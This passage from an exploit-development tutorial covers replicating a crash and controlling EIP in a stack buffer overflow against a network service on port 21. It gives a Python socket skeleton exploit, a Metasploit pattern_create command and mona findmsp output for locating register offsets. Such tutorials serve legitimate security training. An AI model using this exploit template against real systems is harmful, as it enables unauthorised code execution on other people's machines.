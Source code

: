 Check that the EIP register has been overwritten by A's (\\x41). Make a note of any other registers that have either been overwritten, or are pointing to space in memory which has been overwritten.

Crash Replication & Controlling EIP
===================================

The following skeleton exploit code can be used for the rest of the buffer overflow exploit:

    import socket
    
    ip = "10.0.0.1"
    port = 21
    
    prefix = ""
    offset = 0
    overflow = "A" * offset
    retn = ""
    padding = ""
    payload = ""
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    try:
        s.connect((ip, port))
        print("Sending evil buffer...")
        s.send(buffer + "\r\n")
        print("Done!")
    except:
        print("Could not connect.")

Using the buffer length which caused the crash, generate a unique buffer so we can determine the offset in the pattern which overwrites the EIP register, and the offset in the pattern to which other registers point. Create a pattern that is 400 bytes larger than the crash buffer, so that we can determine whether our shellcode can fit immediately. If the larger buffer doesn't crash the application, use a pattern equal to the crash buffer length and slowly add more to the buffer to find space.


    $ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

While the unique buffer is on the stack, use mona's findmsp command, with the distance argument set to the pattern length.


    !mona findmsp -distance 600
    ...
    [+] Looking for cyclic pattern in memory
    Cyclic pattern (normal) found at 0x005f3614 (length 600 bytes)
    Cyclic pattern (normal) found at 0x005f4a40 (length 600 bytes)
    Cyclic pattern (normal) found at 0x017df764 (length 600 bytes)
    EIP contains normal pattern : 0x78413778 (offset 112)
    ESP (0x017dfa30) points at offset 116 in normal pattern (length 484)
    EAX (0x017df764) points at offset 0 in normal pattern (length 600)
    EBP contains normal pattern : 0x41367841 (offset 108)
    ...
